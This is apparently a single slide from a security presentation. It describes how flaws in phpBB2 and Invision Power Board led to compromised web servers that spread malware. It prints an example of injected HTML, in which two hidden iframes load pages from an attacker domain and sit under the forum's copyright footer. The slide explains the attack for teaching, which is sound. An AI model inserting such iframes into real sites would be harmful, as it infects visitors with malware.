

slide 25
# Compromised Web Server
Vulnerabilities in phpBB2 and InvisionBoard enable complete compromise of the underlying machine
All servers hosted on a virtual farm become malware distribution vectors
Example:

Exploit iframes inserted into copyright boilerplate
Test machine infected with 50 malware binaries
<!-- Copyright Information -->
<div align='center' class='copyright'>Powered by
<a href="http://www.invisionboard.com">Invision Power Board</a>(U)
v1.3.1 Final &copy; 2003 &nbsp;
<a href='http://www.invisionpower.com'>IPS, Inc.</a></div>
</div>
<iframe src='http://wsfgfdgrtyhgfd.net/adv/193/new.php'></iframe>
<iframe src='http://wsfgfdgrtyhgfd.net/adv/new.php?adv=193'></iframe>